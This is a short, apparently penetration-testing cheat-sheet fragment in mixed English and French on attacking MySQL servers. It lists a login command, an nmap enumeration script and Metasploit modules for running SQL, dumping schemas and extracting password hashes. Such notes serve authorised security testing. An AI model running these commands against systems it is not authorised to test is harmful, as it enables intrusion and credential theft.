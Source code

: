 
Login to the MySQL server.

```sh
mysql -u <user> -p<password> -h <FQDN/IP>
```

Énumération de MySQL

```sh
nmap --script=mysql-enum <FQDN/IP>
```

```
use auxiliary/admin/mysql/mysql_sql
```

---
Exploiter MySQL

Extraire des hachages de mots de passe 

```
use auxiliary/scanner/mysql/mysql_schemadump
```

```
use auxiliary/scanner/mysql/mysql_hashdump
```

